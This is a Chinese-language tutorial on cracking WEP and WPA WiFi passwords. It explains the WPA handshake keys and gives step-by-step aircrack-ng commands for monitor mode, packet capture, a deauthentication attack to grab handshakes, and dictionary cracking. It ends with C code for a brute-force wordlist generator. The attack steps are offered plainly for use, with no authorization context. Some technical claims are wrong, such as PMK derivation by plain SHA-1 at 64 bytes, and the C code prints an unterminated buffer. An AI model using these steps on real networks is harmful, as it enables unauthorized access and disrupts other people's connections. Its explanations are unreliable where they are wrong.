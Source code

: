 # wifi破解
wpa密码叫做PSK（pre-shared key），长度一般是8 - 63字节，它加上ssid通过SHA-1算法可以得到PMK（pairwise master key）。PMK=SHA-1（ssid，psk），PMK的长度是定长的，都是64字节。事先把PMK计算好的工具叫做airlib-ng。

认证的时候会生成一个PTK（pairwise temporary）,这是一组密钥，由参数客户端MAC地址，AP的BSSID、A-NONCE、S-NONCE、PMK，其中A-NONCE和S-NONCE 是两个随机数哈希出来。PTK加上报文数据采用一定的算法（AES或TKIP），得到密文，同时会得到一个签名叫做MIC（message intergrality check）。

四次握手包中含有--客户端MAC，AP-BSSID，A-NONCE，S-NONCE，MIC。最关键的PMK和PTK是不包含在握手包里的！
	
    PSK(pwd) + BSSID---> PMK
    client-MAC、BSSID、A-NONCE、S-NONCE、PMK ---> PTK
    PTK + data ---> MIC

所以截包可以获得的是：MAC，BSSID，A-NONCE，S-NONCE,data 。利用字典计算出MIC，然后和报文中的MIC作比较。

## wep
ubuntu中安装aircrack-ng工具集:
```
    sudo aptitude install aircrack-ng
```

开启监听模式，会启动6个后台进程，启动监控模式后无线端口是mon0,以后一次累加
```
    sudo airmon-ng start wlan0	
```

不筛选显示所有的AP和他们的客户端
```
    sudo airodump-ng mon0
```

筛选相应对的报文,一定要抓取到若干万的iv对
```
    sudo airodump-ng mon0 --ivs --bssid EC:17:2F:F2:D7:B6 -w wep       #--ivs只抓取IVs,--bssid指定AP的MAC，-w指定写入的文件
```

开始破解,可以边抓，边破解
```
    aircrack-ng 捕获的ivs文件
```

## wpa
前两步与wep破解一样，开启监视，抓包（不添加ivs参数）。但是要进行deauth攻击才更有机会抓到握手包
```
    aireplay-ng -0 1 –a AP的mac -c 客户端的mac wlan0
```

如果抓到握手包，airodump页面右上角会显示，WPA handshake：（mac地址）

破解
```
    aircrack-ng -w dic 捕获的cap文件  #字典文件
```

## 生成字典文件的程序
```
    #define MINLEN 8
    #define MAXLEN 20
    
    #include <stdio.h>
    #include <stdint.h>
    #include <stdlib.h>
    
    int minlen;
    char crypt[63]="1234567890aAbBcCdDeEfFgGhHiIjJkKlLmMnNoOpPqQrRsStTuUvVwWxXyYzZ";
    
    void echo(int, char *);
    
    int main(int argc,char *argv[])
    {
    	char *buf;
    	for(minlen=MINLEN;minlen<MAXLEN;minlen++){ 		/* 生成的字符长度可选 */
    		buf = malloc(minlen);
    		echo(0,buf);
    		free(buf);
    	}
    }
    
    void echo(int pos,char *buf)
    {
    	int i;
    	if(pos == minlen - 1){					/* pos ==> 0 - 7 */
    		for(i = 0;i < 62;i++)				/* 相当于最内层的for循环 */
    			printf("%s%c\n",buf,crypt[i]);
    		return;
    	}
    	for(i = 0;i < 62;i++){
    		buf[pos] = crypt[i];
    		echo(pos+1,buf);
    	}
    	return;
    }
```
